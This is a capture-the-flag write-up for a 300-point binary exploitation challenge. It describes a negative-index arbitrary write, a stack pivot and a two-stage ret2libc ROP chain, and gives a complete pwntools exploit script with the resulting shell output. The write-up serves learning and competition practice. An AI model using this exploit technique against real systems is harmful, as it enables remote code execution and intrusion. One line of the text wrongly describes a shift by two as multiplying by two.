


# Party Roppin In The House (Binex 300)

Solves: 20
# Analysis
The challenge provided us with a client to get started on this challenge. There was no binary, the client would download it from the server each time you connected. This immediately made this challenge feel like it was not only about generating a ROP chain, but, also about doing that dynamically with a binary that changes.

The general binary didn't change, but, the addresses did. So, we simply needed to find all the gadgets we needed dynamically.

# Approach
To start, I just used their client to download a single binary. I saved it, and analyzed it locally to find the vulnerability. Since I noticed the general functionality didn't change, I decided to shell the one I downloaded first, then translate that to an exploit I could build dynamically.

## Vulnerability Analysis
The first step here is to find out the vulnerability we're looking for. Since the hints mentioned stack cookies, I thought immediately about buffer overflows, so, I looked for those sorts of functions; `memcpy`, `strcpy`, `gets`, `read`. Also, since there would be a cookie involved, I'd need some sort of way to leak that value, so, I looked for arbitrary reads via integer underflow, or, a `printf` vulnerability.

As I looked, I noticed that nearly every `printf` called appeared to be properly formed, so that was out. I also noticed that they had wrapped the `read_line` function in a length check. So, I could still provide up to 0x3ff bytes via that, however, that was not enough to overflow the buffer in this case.



However, I did notice that they loaded the input into a buffer that was static. That is, with no PIE on, the address of this buffer was easily locatable in the binary and not on the heap. This would be useful later.

As I looked through this, the `checkout` function caught my eye. Specifically, I was looking for a way to read a stack canary. However, this function also gave me a limited write. That'll work too! I don't need to worry about the stack canary if I jump over it. This function would read in two ints, and then do some memory assignments with them.



In this case, the `checkout` function is called like this: `checkout(backpackLoc: &backpackLoc, maxLength: 0x10)`. The check on line four of the function only ensures that the input is not greater than the provided max length. It does not check if it is below zero. This allows us to reach line 6, annotated below, which allows us to write a value anywhere we want (so long as it's a lower stack address, which all of the interesting things _cough_ RIP _cough_ are).

```
   6 @ 004013dc  *((sx.q(backpackSlot) << 2) + backpackLoc) = shelf
```
This essentially takes our backpack slot input and multiplies it by two (`<< 2 `), then sets that location to the value we added for the shelf input.

Interestingly, lines 8 and 10 are vulnerable to the same exact attack, but, this is a limited read instead of a write. This is the vulnerability I'd have needed to leak the canary. But, with the write a few lines above, the canary was of no concern to me.

## Exploit Development
So, now we have the vulnerability, the next task is to sort out how to get execution from this. This general approach is what took me the longest throughout this entire challenge, I struggled for a while wondering what I could do with an arbitrary write like this. Some of my thoughts:

- I can control `RIP` just fine, but, what gadget do I jump to? Anything I could think of would require writing two segments instead of 1.
- I can input whatever I want to the `choice_buffer`, but, there is no execute on that input, so, jumping to shellcode is out.
- I can stack pivot to the `choice_buffer`, but, that would take a `pop rsp`, which, also needs an argument.
- I might be able to make use of the existing stack, but, the values were not properly setup for that.

After a while thinking, I suddenly realized that I might be able to call this function multiple times. Each time, I can write a DWORD, so, if I start with the address of `choice_buffer` and write that one QWORD behind where `RIP` is along with a null to ensure the address if correct. I can then call this function again, and overwrite `RIP` with the `pop rsp` gadget, which, now would have a proper argument setup!

So, to recap that, I needed three writes:
1. Write the lower DWORD of the address of the `choice_buffer`.
2. Write the upper DWORD, which would just be NULL.
3. Write the lower DWORD of the gadget address, also, only needs one write since these addresses are small.

So, I now have a reliable stack pivot to the `choice_buffer`, where I have 0x3ff bytes that I fully control. This gives me the space and capability I need for the rest of my ROP chain, the question is, what do I have to reach back to?

Looking at the gadgets available to me, I quickly noticed there was no `syscall` gadget at all. I might be able to use a one gadget here? Instead I elected to go got a personal favorite, ret2libc. This was a bit more difficult though, ASLR was on on the remote. So, I needed two stages to my ROP chain.

1. Use a typical libc address leak chain to print out the address of PUTS.
2. Calculate from the puts address the offset of libc, and thereby, system and bin/sh. Then setup the call to `system`.

To connect these two chains, you can typically recall `main` to allow you to start over again, and re-inject the next ROP chain to call `system`. However, when I tried to do this, I kept getting odd crashes from how I messed with the stack to do my stack pivot.

So, instead, I decided to call read at the end of my first chain, which would then read in the second bit of my chain after the gadget to call read. So, my final plan of attack from top to bottom was as follows:

1. Input stage one of my ROP chain into the `choice_buffer`. This includes:
    1. 32 padding bytes
    2. `pop rdi` gadget
    3. `puts@GOT` address
    4. `puts@PLT` address
    5. `pop rdi` gadget
    5. `p64(0x0)`
    6. `pop rdx` gadget
    7. `p64(0x50)`
    8. `pop rsi` gadget
    9. Address of start of ROP chain + 8*13
    10. `read@PLT`


2. Overwrite the qword behind `rip` with the address of `choice_buffer` + 32 bytes. (Would take two calls to the write function)
3. Write the address of a `pop rsp` gadget to `rip`, allowing me to stack pivot to the `choice_buffer`.
4. Read output of the above to leak the libc address of puts.
5. Use a libc library to lookup offsets to system and bin/sh
6. Add the proper offsets to my exploit script and start over.
    * I could have had my script take the right offsets as input while running. I decided it would be faster to just restart it with the updated values.
7. Shell!

## Automation
Now that I have an exploit working locally, I need to get it to work dynamically by loading the right gadget addresses from the binary automatically. For this, I can just use pwntools:
```python
f = open('rotf-curr','wb').write(binary[4:-75])

e = ELF('rotf-curr')

PUTS_PLT = e.symbols['puts']
PUTS_GOT = e.got['puts']

READ_PLT = e.symbols['read']

p.success("Found addresses of puts@PLT {:x} and puts@GOT {:x}".format(PUTS_PLT, PUTS_GOT))

rop =ROP(e)

pop_rsp = rop.find_gadget(['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
```
In this case, I would save the binary from the remote service, so I could debug my exploit locally if I needed to.

# Solution
```python
from pwn import *
import subprocess
import os

ROP_OFFSET  = 0x6041e8
POP_RSP     = 0x401c4d

ROP_CHAIN_1 = p64(0x400fb3)     # Address of pop_rdi gadget
ROP_CHAIN_1 += p64(0x603020)    # Address of puts in the GOT
ROP_CHAIN_1 += p64(0x4008c0)    # Address of puts in the PLT
ROP_CHAIN_1 += p64(0x401850)    # Address of main

def writeToLocation(offset, address):
    p.sendline('2')
    p.recvuntil('What shelf is the book in?')
    p.sendline(str(address))
    p.recvuntil('Where in your backpack would you like to put the book?')
    raw_input()
    p.sendline(str(offset))


context.log_level = 'debug'

#p = process('./rotf')

p = remote('challenge.acictf.com',47920)

binary = p.recvuntil('9) Leave')
binary = binary + p.recvuntil('9) Leave')


f = open('rotf-curr','wb').write(binary[4:-75])

e = ELF('rotf-curr')

PUTS_PLT = e.symbols['puts']
PUTS_GOT = e.got['puts']

READ_PLT = e.symbols['read']

p.success("Found addresses of puts@PLT {:x} and puts@GOT {:x}".format(PUTS_PLT, PUTS_GOT))

rop =ROP(e)

pop_rsp = rop.find_gadget(['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]

ROP_CHAIN_1 = p64(pop_rdi)     # Address of pop_rdi gadget
ROP_CHAIN_1 += p64(PUTS_GOT)    # Address of puts in the GOT
ROP_CHAIN_1 += p64(PUTS_PLT)    # Address of puts in the PLT
ROP_CHAIN_1 += p64(pop_rdi)    # Address of main
ROP_CHAIN_1 += p64(0x0)
ROP_CHAIN_1 += p64(pop_rdx)
ROP_CHAIN_1 += p64(0x50)
ROP_CHAIN_1 += p64(pop_rsi)
ROP_CHAIN_1 += p64(ROP_OFFSET+8*13)
ROP_CHAIN_1 += p64(READ_PLT)

p.sendline('12345678iAAAAAAAAAAAAAAAAAAAAAAA' + ROP_CHAIN_1)

p.recvuntil('9) Leave')

writeToLocation(-7, 0)

writeToLocation(-8, ROP_OFFSET)

writeToLocation(-10, pop_rsp)

p.recvuntil('\n')
p.recvuntil('\n')

puts_addr = int(p.recvuntil('\n').strip('\n')[::-1].encode('hex'), 16)

p.success("Leaked puts address in libc {:x}".format(puts_addr))

LIBC_PUTS = puts_addr
LIBC_BASE = LIBC_PUTS-0x0809c0
LIBC_SYSTEM = LIBC_BASE+0x04f440
LIBC_SH = LIBC_BASE+0x1b3e9a

p.success("Calculated system address in libc {:x}".format(LIBC_SYSTEM))


ROP_CHAIN_2 = p64(pop_rdi)
ROP_CHAIN_2 += p64(LIBC_SH)
ROP_CHAIN_2 += p64(LIBC_SYSTEM)
ROP_CHAIN_2 += p64(0)


raw_input()

p.sendline(ROP_CHAIN_2)

p.interactive()
```
```
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x20 bytes:
    'YB9MFCEC\n'
    'books\n'
    'books.c\n'
    'flag\n'
    'out\n'
YB9MFCEC
books
books.c
flag
out
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x21 bytes:
    'ACI{flag_bytes}\n'
```
